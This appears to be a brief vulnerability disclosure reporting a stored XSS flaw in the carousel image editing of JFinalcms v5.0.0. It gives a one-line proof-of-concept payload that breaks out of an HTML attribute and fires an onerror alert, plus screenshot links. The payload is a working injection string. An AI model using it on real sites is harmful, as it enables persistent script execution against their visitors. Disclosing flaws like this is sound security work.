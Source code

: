 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a storage type XSS for carousel image editing

![图片](https://github.com/Jarvis-616/cms/assets/106567174/f6f7bd63-1d87-458b-827b-ef03f0b2a34c)

poc:`"><img src=1 onerror=alert(1)>`

![图片](https://github.com/Jarvis-616/cms/assets/106567174/8d9acc2b-ad9b-4da9-bee5-e585434e8a8c)

successed

![图片](https://github.com/Jarvis-616/cms/assets/106567174/9e84a67d-d1d3-4214-baac-4c9d287c2dc8)


